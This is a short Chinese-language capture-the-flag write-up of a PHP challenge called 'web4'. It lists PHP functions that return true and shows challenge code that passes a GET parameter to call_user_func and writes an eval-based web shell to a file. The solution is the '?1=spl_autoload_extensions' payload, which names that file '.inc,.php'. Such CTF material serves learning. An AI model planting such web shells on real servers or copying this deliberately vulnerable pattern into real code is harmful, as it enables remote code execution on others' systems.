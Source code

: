 结果为bool(true)的函数

```
closelog
ob_start
ob_flush
ob_clean
gc_enabled
ob_end_flush
ob_end_clean
mysqli_thread_safe
restore_error_handler
spl_autoload_register
readline_clear_history
restore_exception_handler
output_reset_rewrite_vars
session_start
phpcredits
phpinfo
```



## web4

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-01-16 15:42:02
# @Last Modified by:   h1xa
# @Last Modified time: 2022-01-24 22:14:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

highlight_file(__FILE__);
error_reporting(0);

$key=  call_user_func(($_GET[1]));
file_put_contents($key, "<?php eval(\$_POST[1]);?>");

die("虎年大吉，新春快乐！");

虎年大吉，新春快乐！
```

![](https://ctfer-1257200238.cos.ap-shanghai.myqcloud.com/public/attachments/2022/02/04/d2cf6418694b28cf61e50bdb9a21519dc7a123eb.png?sign=q-sign-algorithm%3Dsha1%26q-ak%3DAKIDxjGWVCdngIejX3JI0RaT5QUHn2AIGzRe%26q-sign-time%3D1643977141%3B1644063601%26q-key-time%3D1643977141%3B1644063601%26q-header-list%3Dhost%26q-url-param-list%3D%26q-signature%3Dfcabe323447fb1e0f10c902dbf4913134e77f6a1&&imageMogr2/format/webp/quality/20/interlace/1/ignore-error/1)

`?1=spl_autoload_extensions`

`.inc,.php`
